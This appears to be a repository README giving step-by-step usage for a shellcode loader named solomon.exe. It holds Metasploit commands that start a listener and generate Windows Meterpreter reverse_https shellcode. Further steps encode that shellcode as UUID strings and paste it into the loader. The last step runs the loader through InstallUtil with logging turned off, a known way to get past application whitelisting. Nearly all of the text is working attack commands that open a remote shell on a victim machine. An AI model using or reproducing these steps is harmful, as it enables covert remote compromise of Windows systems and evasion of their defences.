 ```msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST eth0; set LPORT 443; exploit"```

```msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f raw -o shell.bin```

```python3 payload_uuid.py -p shell.bin > shell.txt```

In notepad++ Ctrl+h in Replace tab add in Find what field ^(.*)$ and in Replace with field "\1",
Remove from the last line the comma.
<br>
<br>
![image](https://github.com/user-attachments/assets/6c6aeb08-b354-4f0a-9e07-7adb1fc12b80)
<br>
<br>
Add the final shellcode to the "Shellcode" variable.
Compile as Release .
<br>
<br>
![image](https://github.com/user-attachments/assets/6c770e2f-f0c7-4a4b-98ab-a6496ead6438)
<br>
<br>
In order to run the loader with installutil:
<br>
``` C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false .\solomon.exe```
